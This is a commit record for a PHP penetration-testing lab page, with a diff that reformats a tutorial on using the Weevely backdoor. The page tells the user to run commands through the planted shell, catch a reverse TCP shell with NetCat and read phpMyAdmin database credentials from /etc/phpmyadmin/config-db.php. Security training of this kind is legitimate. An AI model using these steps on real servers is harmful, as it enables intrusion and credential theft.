

Before and after one commit to veerupandey/Penetration-Testing-Toolkit, a PHP site: page /phpbackdoor.php in a window 1280 px wide. Shown: the part 90-1111 px from the top of the page at 95% size. Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
modified:   lab/phpbackdoor.php

```diff
--- a/lab/phpbackdoor.php
+++ b/lab/phpbackdoor.php
@@ -96,9 +96,9 @@ require_once 'u.php';
     </fieldset>
 
     <fieldset>
-        <label>Step 2d.</label><b>www-data@192.168.2.29:  </b>
-        <code>ls</code><p>
-        <b>Format :</b> shell.sh (system_command)</p>
+        <label>Step 2d.</label><b>www-data@192.168.2.29-->  </b>
+        <code>:shell.sh ls</code><p>
+        <b>Format -></b> :shell.sh (system_command)</p>
     </fieldset>
         <fieldset>
             <label>Step 2e.</label>Use NetCat to listen for an incoming connection in your attacker computer
@@ -106,14 +106,14 @@ require_once 'u.php';
     </fieldset>
     <fieldset>
         <label>Step 2f.</label>Back to Weevely terminal opened in <b>step 2D</b>, after NetCat successfully listening on specific port, now  make a reverse TCP connection to our computer.
-       <p><b>Type:</b> <code>backdoor.reverse_tcp your_ip 23</code></p>
+       <p><b>Type--></b> <code>:backdoor.reverse_tcp your_ip 23</code></p>
     </fieldset>
     <fieldset>
         <label>Step 2g.</label>If remote  server is a web server with MySQL database and PHPMyadmin installed.Try this in your 'netcat' terminal opened in <b>step 2E</b>
         <code>cat /etc/phpmyadmin/config-db.php</code>
     </fieldset>
      <fieldset>
-         <label>Note:</label> Use google to know more about <b>weevely</b>
+         <label>Note:</label> In terminal type <b>weevely help</b>
     </fieldset>
 
 
```
